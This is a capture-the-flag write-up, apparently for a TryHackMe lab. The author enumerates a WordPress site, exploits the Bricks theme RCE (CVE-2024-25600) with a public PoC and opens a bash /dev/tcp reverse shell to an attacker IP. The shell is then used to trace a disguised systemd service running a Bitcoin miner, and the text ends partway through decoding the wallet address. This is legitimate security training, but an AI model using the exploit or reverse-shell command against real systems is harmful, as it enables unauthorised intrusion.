## Scenario

> From Three Million Bricks to Three Million Transactions!
> 
> Brick Press Media Co. was working on creating a brand-new web theme that represents a renowned wall using three million byte bricks. Agent Murphy comes with a streak of bad luck. And here we go again: the server is compromised, and they've lost access.
> 
> Can you hack back the server and identify what happened there?

Access via: `10.113.157.20` (`bricks.thm`)

## Initial Recon

### Hostname Resolution

Before touching the box, added the hostname mapping to `/etc/hosts` so the vhost would resolve properly.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo vim /etc/hosts

┌──(—REDACTED—㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
::1		localhost ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters
# 154.57.164.67   academy.htb archive.academy.htb test.academy.htb faculty.academy.htb
127.0.1.1	tryhackme.lan tryhackme
10.113.157.20	bricks.thm
```

### Probing the Web Server — Dead End on HTTP

Tried going to the page over plain HTTP first and hit an error straight away: a 405, Method Not Allowed.



This turned out to be a dead end caused by a wrong assumption — that port 80 was serving the actual site. The nmap scan below showed it's actually a Python `http.server`/WebSockify instance on port 80, not the real WordPress install, which explains why a normal GET didn't route the way it should have. The real site turned out to be on 443.

### Nmap Scan

Ran a full port scan first to see what was actually open.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p- 10.113.157.20
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-29 13:29 +0200
Nmap scan report for bricks.thm (10.113.157.20)
Host is up (0.037s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 20.64 seconds
```

**Breakdown:**

- `-p-` scans every TCP port (1–65535) rather than just nmap's default top-1000
- `10.113.157.20` the target

Followed up with a version/script scan against the open ports.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -sC -sV -p22,80,443,4406 10.113.157.20
[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-29 13:29 +0200
Nmap scan report for bricks.thm (10.113.157.20)
Host is up (0.036s latency).

PORT     STATE  SERVICE  VERSION
22/tcp   open   ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 95:77:6f:93:75:b0:29:a4:ad:97:53:2e:98:8d:e2:73 (RSA)
|   256 45:43:24:71:64:5b:cf:7e:91:c1:25:d7:68:78:ae:9b (ECDSA)
|_  256 c6:fa:b8:a5:4d:4f:f3:f9:b1:f3:5f:a6:ab:b5:0c:78 (ED25519)
80/tcp   open   http     Python http.server 3.5 - 3.10
|_http-title: Error response
|_http-server-header: WebSockify Python/3.8.10
443/tcp  open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2024-04-02T11:59:14
|_Not valid after:  2025-04-02T11:59:14
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 6.5
| tls-alpn: 
|   h2
|_  http/1.1
|_http-title: Brick by Brick
|_ssl-date: TLS randomness does not represent time
4406/tcp closed ds-slp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.84 seconds
```

**Breakdown:**

- `-sC` runs nmap's default script set against the open ports, pulling things like `robots.txt`, TLS cert details and the HTTP generator header
- `-sV` probes each open port to fingerprint the service and version running on it
- `-p22,80,443,4406` restricts the scan to a specific port list (`4406` came back closed — mysql was actually on `3306` per the first scan, not `4406`; not worth re-scanning since mysql wasn't part of the eventual path in)
- `10.113.157.20` the target

This confirmed port 80 really is a decoy/unrelated service (Python's `http.server`, explaining the 405), and the actual WordPress site — version 6.5 — is on 443 behind Apache.

### Switching to HTTPS

Went to `https://bricks.thm` instead and got a proper page this time: a brick wall background with a "Brick by Brick!" title.


### robots.txt

```shell
https://bricks.thm/robots.txt
```





With no hints of what the logon credentials might be, decided to move on to scanning with `wpscan` instead. 

### WPScan Enumeration

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wpscan --url https://bricks.thm --disable-tls-checks
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: https://bricks.thm/ [10.113.157.20]
[+] Started: Thu Oct 29 13:44:15 2026
[+] Command Line: wpscan --url https://bricks.thm --disable-tls-checks
[+] Hostname: kali

Interesting Finding(s):

[+] Headers
 | Interesting Entry: server: Apache
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: https://bricks.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://bricks.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://bricks.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://bricks.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5 identified (Insecure, released on 2024-04-02).
 | Found By: Rss Generator (Passive Detection)
 |  - https://bricks.thm/feed/, <generator>https://wordpress.org/?v=6.5</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - https://bricks.thm/comments/feed/, <generator>https://wordpress.org/?v=6.5</generator>

[+] WordPress theme in use: bricks
 | Location: https://bricks.thm/wp-content/themes/bricks/
 | Readme: https://bricks.thm/wp-content/themes/bricks/readme.txt
 | Style URL: https://bricks.thm/wp-content/themes/bricks/style.css
 | Style Name: Bricks
 | Style URI: https://bricksbuilder.io/
 | Description: Visual website builder for WordPress....
 | Author: Bricks
 | Author URI: https://bricksbuilder.io/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.9.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://bricks.thm/wp-content/themes/bricks/style.css, Match: 'Version: 1.9.5'

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Thu Oct 29 13:44:19 2026
[+] Requests Done: 43
[+] Cached Requests: 7
[+] Most response codes received: 200: 28, 404: 12, 302: 1, 403: 1, 500: 1
[+] Data Sent: 9.366 KB
[+] Data Received: 16.622 MB
[+] Memory used: 174.004 MB
[+] Elapsed time: 00:00:03
```

**Breakdown:**

- `--url https://bricks.thm` the target to scan
- `--disable-tls-checks` skips TLS certificate validation, needed here because the site's using a self-signed cert

## Identifying the Vulnerable Theme

Searched for known vulnerabilities in Bricks theme 1.9.5 and found **CVE-2024-25600**: WordPress Bricks Builder Theme Remote Code Execution.



## Exploiting CVE-2024-25600

### Finding a PoC

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit --cve 2024-25600      
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Bricks Builder Theme  -  RCE                                                                                                                                                                    | multiple/webapps/52619.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

**Breakdown:**

- `--cve 2024-25600` searches the local exploit-db database for exploits tagged with that CVE ID

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit -x 52619               
  Exploit: WordPress Bricks Builder Theme  -  RCE
      URL: https://www.exploit-db.com/exploits/52619
     Path: /usr/share/exploitdb/exploits/multiple/webapps/52619.py
    Codes: CVE-2024-25600
 Verified: False
File Type: Python script, ASCII text executable

┌──(—REDACTED—㉿kali)-[~]
└─$ searchsploit -m 52619
  Exploit: WordPress Bricks Builder Theme  -  RCE
      URL: https://www.exploit-db.com/exploits/52619
     Path: /usr/share/exploitdb/exploits/multiple/webapps/52619.py
    Codes: CVE-2024-25600
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/—REDACTED—/52619.py
```

**Breakdown:**

- `-x 52619` examines the exploit's metadata and details without copying it
- `-m 52619` mirrors/copies the matching exploit file (by its exploit-db ID) into the current directory

### Fixing Dependencies

First run threw a missing-module error:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ python3 52619.py     
/home/—REDACTED—/52619.py:30: SyntaxWarning: "\ " is an invalid escape sequence. Such sequences will not work in the future. Did you mean "\\ "? A raw string is also an option.
  / ____/ |  / / ____/   |__ \ / __ \__ \/ // /      |__ \ / ____/ ___// __ \/ __ \\
Traceback (most recent call last):
  File "/home/—REDACTED—/52619.py", line 23, in <module>
    from alive_progress import alive_bar
ModuleNotFoundError: No module named 'alive_progress'
```

Rather than install each missing module one at a time as the script crashed on each new import, tried `pipreqs` to scan the script's imports and generate a `requirements.txt` up front. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ mkdir bricks-exploit && mv 52619.py bricks-exploit/

┌──(—REDACTED—㉿kali)-[~]
└─$ cd bricks-exploit 

┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ ls
52619.py

┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ pipreqs ~/bricks-exploit --force
<unknown>:30: SyntaxWarning: "\ " is an invalid escape sequence. Such sequences will not work in the future. Did you mean "\\ "? A raw string is also an option.
WARNING: Import named "alive_progress" not found locally. Trying to resolve it at the PyPI server.
WARNING: Import named "alive_progress" was resolved to "alive-progress:3.3.0" package (https://pypi.org/project/alive-progress/).
Please, verify manually the final list of requirements.txt to avoid possible dependency confusions.
WARNING: Import named "beautifulsoup4" not found locally. Trying to resolve it at the PyPI server.
WARNING: Import named "beautifulsoup4" was resolved to "beautifulsoup4:4.15.0" package (https://pypi.org/project/beautifulsoup4/).
Please, verify manually the final list of requirements.txt to avoid possible dependency confusions.
WARNING: Import named "Requests" not found locally. Trying to resolve it at the PyPI server.
WARNING: Import named "Requests" was resolved to "requests:2.34.2" package (https://pypi.org/project/requests/).
Please, verify manually the final list of requirements.txt to avoid possible dependency confusions.
WARNING: Import named "rich" not found locally. Trying to resolve it at the PyPI server.
WARNING: Import named "rich" was resolved to "rich:15.0.0" package (https://pypi.org/project/rich/).
Please, verify manually the final list of requirements.txt to avoid possible dependency confusions.
INFO: Successfully saved requirements file in /home/—REDACTED—/bricks-exploit/requirements.txt

┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ ls                                         
52619.py  requirements.txt

┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ pip install -r requirements.txt --break-system-packages
Defaulting to user installation because normal site-packages is not writeable
Collecting alive_progress==3.3.0 (from -r requirements.txt (line 1))
  Downloading alive_progress-3.3.0-py3-none-any.whl.metadata (72 kB)
Requirement already satisfied: beautifulsoup4==4.15.0 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 2)) (4.15.0)
Requirement already satisfied: prompt_toolkit==3.0.53 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 3)) (3.0.53)
Requirement already satisfied: Requests==2.34.2 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 4)) (2.34.2)
Requirement already satisfied: rich==15.0.0 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 5)) (15.0.0)
Collecting about-time==4.2.1 (from alive_progress==3.3.0->-r requirements.txt (line 1))
  Downloading about_time-4.2.1-py3-none-any.whl.metadata (13 kB)
Collecting graphemeu==0.7.2 (from alive_progress==3.3.0->-r requirements.txt (line 1))
  Downloading graphemeu-0.7.2-py3-none-any.whl.metadata (7.8 kB)
Requirement already satisfied: soupsieve>=1.6.1 in /usr/lib/python3/dist-packages (from beautifulsoup4==4.15.0->-r requirements.txt (line 2)) (2.8.4)
Requirement already satisfied: typing-extensions>=4.0.0 in /usr/lib/python3/dist-packages (from beautifulsoup4==4.15.0->-r requirements.txt (line 2)) (4.16.0)
Requirement already satisfied: wcwidth>=0.1.4 in /usr/lib/python3/dist-packages (from prompt_toolkit==3.0.53->-r requirements.txt (line 3)) (0.8.3)
Requirement already satisfied: charset_normalizer<4,>=2 in /usr/lib/python3/dist-packages (from Requests==2.34.2->-r requirements.txt (line 4)) (3.4.7)
Requirement already satisfied: idna<4,>=2.5 in /usr/lib/python3/dist-packages (from Requests==2.34.2->-r requirements.txt (line 4)) (3.20)
Requirement already satisfied: urllib3<3,>=1.26 in /usr/lib/python3/dist-packages (from Requests==2.34.2->-r requirements.txt (line 4)) (2.8.0)
Requirement already satisfied: certifi>=2023.5.7 in /usr/lib/python3/dist-packages (from Requests==2.34.2->-r requirements.txt (line 4)) (2026.7.22)
Requirement already satisfied: markdown-it-py>=2.2.0 in /usr/lib/python3/dist-packages (from rich==15.0.0->-r requirements.txt (line 5)) (4.2.0)
Requirement already satisfied: pygments<3.0.0,>=2.13.0 in /usr/lib/python3/dist-packages (from rich==15.0.0->-r requirements.txt (line 5)) (2.20.0)
Requirement already satisfied: mdurl~=0.1 in /usr/lib/python3/dist-packages (from markdown-it-py>=2.2.0->rich==15.0.0->-r requirements.txt (line 5)) (0.1.2)
Downloading alive_progress-3.3.0-py3-none-any.whl (78 kB)
Downloading about_time-4.2.1-py3-none-any.whl (13 kB)
Downloading graphemeu-0.7.2-py3-none-any.whl (22 kB)
Installing collected packages: graphemeu, about-time, alive_progress
Successfully installed about-time-4.2.1 alive_progress-3.3.0 graphemeu-0.7.2
```

**Breakdown:**

- `pipreqs ~/bricks-exploit` scans every `.py` file in that directory for `import` statements and writes a `requirements.txt` listing the third-party packages it finds
- `--force` overwrites an existing `requirements.txt` if one's already present
- `pip install -r requirements.txt` installs every package listed in the file in one go
- `--break-system-packages` overrides Kali's newer Python environment protection that otherwise blocks `pip` from installing into the system-managed site-packages

### Running the Exploit

```shell
┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ python3 52619.py --help                
usage: 52619.py [-h] [-u URL] [-t THREADS] [-f FILE]

A PoC exploit for CVE-2024-25600 - WordPress Bricks Builder Unauthenticated Remote Code Execution (RCE)

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target URL to exploit
  -t, --threads THREADS
                        Adjust threading to your needs
  -f, --file FILE       File containing URLs to scan
```

```shell
┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ python3 52619.py -u https://bricks.thm/
[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm/
[*] Initiating interactive shell
[+] Interactive shell opened successfully
```

**Breakdown:**

- `-u https://bricks.thm/` passes the target URL the script should check for the vulnerability and then exploit

The exploit confirmed the target was vulnerable and dropped straight into an interactive shell — no authentication needed, consistent with this being an unauthenticated RCE.

```shell
Shell> whoami
apache

Shell> pwd
/data/www/default

Shell> ls
—REDACTED—.txt
index.php
kod
license.txt
phpmyadmin
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php

Shell> cat —REDACTED—.txt
—REDACTED—
```

Straight away there's an oddly-named `.txt` file sitting in the web root — a hidden flag file.

### Question 1 — What is the content of the hidden .txt file in the web folder?

**Answer:** `—REDACTED—`

## Stabilising the Shell

The exploit's built-in interactive shell worked but wasn't a real TTY, so upgraded to a proper reverse shell.

```shell
┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
```

**Breakdown:**

- `-l` puts netcat into listen mode
- `-v` verbose output
- `-n` skips DNS resolution for connecting hosts
- `-p 4444` sets the port to listen on

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ifconfig tun0                          
tun0: flags=209<UP,POINTOPOINT,RUNNING,NOARP>  mtu 1380
        inet —REDACTED—  netmask 255.255.192.0  destination —REDACTED—
        inet6 fe80::97b7:22ca:3e6a:cfef  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)
        RX packets 134469  bytes 7098918 (6.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 134062  bytes 19210434 (18.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Grabbed the attack box's VPN interface IP to use as the callback address, then fired the reverse shell from inside the exploit's shell:

```shell
Shell> bash -c 'exec bash -i >& /dev/tcp/—REDACTED—/4444 0>&1'
```

**Breakdown:**

- `bash -c '...'` runs the quoted string as a bash command
- `exec bash -i` replaces the current process with a new interactive bash shell (`-i`) instead of spawning a subshell, so the reverse shell doesn't leave a dangling parent process
- `>& /dev/tcp/—REDACTED—/4444` redirects both stdout and stderr into a TCP connection to the attacker IP and port, using bash's built-in `/dev/tcp` pseudo-device
- `0>&1` redirects stdin to follow stdout, so keystrokes sent from the listener are read as input by the remote shell

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.113.157.20] 39694
bash: cannot set terminal process group (1326): Inappropriate ioctl for device
bash: no job control in this shell
apache@ip-10-113-157-20:/data/www/default$   
```

Shell landed but no tab-completion or job control. Checked for Python to upgrade it to a full PTY:

```shell
apache@ip-10-113-157-20:/data/www/default$ which python3
/usr/bin/python3
apache@ip-10-113-157-20:/data/www/default$ python3 -c 'import pty; pty.spawn("/bin/bash")' 
apache@ip-10-113-157-20:/data/www/default$ ^Z
zsh: suspended  nc -lvnp 4444
```

**Breakdown:**

- `-c '...'` runs the given string as Python code directly
- `import pty` imports Python's pseudo-terminal module
- `pty.spawn("/bin/bash")` spawns `/bin/bash` attached to a real pty, which is what gives job control and proper signal handling back

Backgrounded the listener with `Ctrl+Z`, then put the local terminal into raw mode and foregrounded it again:

```shell
┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ stty raw -echo; fg    
[1]  + continued  nc -lvnp 4444

apache@ip-10-113-157-20:/data/www/default$ 
```

**Breakdown:**

- `stty raw` puts the local terminal into raw mode, so keystrokes pass straight through instead of being processed locally first (needed for things like `Ctrl+C` to reach the remote shell correctly)
- `-echo` stops the local terminal from echoing typed input itself, since the remote shell now echoes it
- `fg` brings the backgrounded netcat listener back to the foreground

Matched the terminal size and `TERM` variable so full-screen tools (like `less`) would render correctly:

```shell
┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ stty size             
52 236

┌──(—REDACTED—㉿kali)-[~/bricks-exploit]
└─$ echo $TERM                                                                          
xterm-256color
```

```shell
apache@ip-10-113-157-20:/data/www/default$ export TERM=xterm-256color
apache@ip-10-113-157-20:/data/www/default$ stty rows 52 columns 236
```

**Breakdown:**

- `export TERM=xterm-256color` sets the `TERM` environment variable on the remote shell to match the local terminal type
- `stty rows 52 columns 236` sets the remote tty's dimensions to match the attacker machine's actual terminal size (52 rows, 236 columns)

## Hunting the Compromise

With a stable shell, moved on to finding what the attacker had actually done to the box.

### Question 3 — What is the service name affiliated with the suspicious process?

Listed all systemd units and scrolled through, since nothing pointed anywhere specific yet:

```shell
apache@ip-10-113-157-20:/data/www/default$ systemctl list-units | less
```

**Breakdown:**

- `systemctl list-units` lists every loaded systemd unit and its current state
- `| less` pipes the output into a pager so it can be scrolled through

One entry stood out immediately — a service with a description that had no business being there:



```
  —REDACTED—                                                          loaded active     running   TRYHACK3M  
```

A service called `—REDACTED—` with a description of `TRYHACK3M` is obviously not a legitimate system unit.

**Answer:** `—REDACTED—`

### Question 2 — What is the name of the suspicious process?

Dumped the unit file to see what it actually runs:

```shell
apache@ip-10-113-157-20:/data/www/default$ systemctl cat —REDACTED—
# /etc/systemd/system/—REDACTED—
[Unit]
Description=TRYHACK3M

[Service]
Type=simple
ExecStart=/lib/NetworkManager/—REDACTED—
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**Breakdown:**

- `cat` is a `systemctl` subcommand that prints the unit file's contents for the named unit

The `ExecStart` line names the actual binary this fake service is launching: `—REDACTED—`, sitting in `/lib/NetworkManager/` to blend in with legitimate NetworkManager helper binaries.

**Answer:** `—REDACTED—`

## Finding the Miner Log

### Question 4 — What is the log file name of the miner instance?

Checked the directory the suspicious binary lives in — plenty of legitimately-named files to sift through:

```shell
apache@ip-10-113-157-20:/lib/NetworkManager$ ls
VPN	dispatcher.d  nm-dhcp-helper  nm-iface-helper  nm-initrd-generator     nm-openvpn-service		  nm-pptp-auth-dialog  system-connections
conf.d	—REDACTED—     nm-dispatcher   —REDACTED—   nm-openvpn-auth-dialog  nm-openvpn-service-openvpn-helper  nm-pptp-service
```

Rather than manually open every file, grepped the whole directory for the string "miner":

```shell
apache@ip-10-113-157-20:/lib/NetworkManager$ grep -rni "miner" . 
Binary file ./—REDACTED— matches
```

**Breakdown:**

- `-r` searches recursively through every file under the given path
- `-n` shows line numbers alongside matches
- `-i` makes the match case-insensitive
- `"miner"` the search string
- `.` search starting from the current directory

One hit: `—REDACTED—`, flagged as a binary file match (it's actually a text log, grep just misidentified it because of the encoded ID lines mixed in).

```shell
apache@ip-10-113-157-20:/lib/NetworkManager$ cat —REDACTED—
ID: —REDACTED—
2024-04-08 10:46:04,743 [*] confbak: Ready!
2024-04-08 10:46:04,743 [*] Status: Mining!
2024-04-08 10:46:08,745 [*] Miner()
2024-04-08 10:46:08,745 [*] Bitcoin Miner Thread Started
2024-04-08 10:46:08,745 [*] Status: Mining!
2024-04-08 10:46:10,747 [*] Miner()
2024-04-08 10:46:12,748 [*] Miner()
2024-04-08 10:46:14,751 [*] Miner()
2024-04-08 10:46:16,753 [*] Miner()
2024-04-08 10:46:18,755 [*] Miner()
2024-04-08 10:46:20,757 [*] Miner()
2024-04-08 10:46:22,760 [*] Miner()
2024-04-08 10:46:24,762 [*] Miner()
ID: —REDACTED—
2024-04-08 10:48:04,647 [*] confbak: Ready!
2024-04-08 10:48:04,648 [*] Status: Mining!
2024-04-08 10:48:08,649 [*] Miner()
2024-04-08 10:48:08,649 [*] Bitcoin Miner Thread Started
2024-04-08 10:48:08,649 [*] Status: Mining!
2024-04-08 10:48:10,651 [*] Miner()
2024-04-08 10:48:12,653 [*] Miner()
2024-04-08 10:48:14,656 [*] Miner()
—SNIP—
```

Clearly a Bitcoin miner's log — "Miner()", "Bitcoin Miner Thread Started", "Status: Mining!" repeated over and over, each block prefixed by what looks like an encoded ID string.

**Answer:** `—REDACTED—`

## Decoding the Wallet Address

### Question 5 — What is the wallet address of the miner instance?

The repeating `ID:` string at the top of each log block looked like the wallet address, just encoded somehow:

```
—REDACTED—
```

Dropped it into CyberChef's Magic recipe detector to figure out the encoding chain rather than guessing.

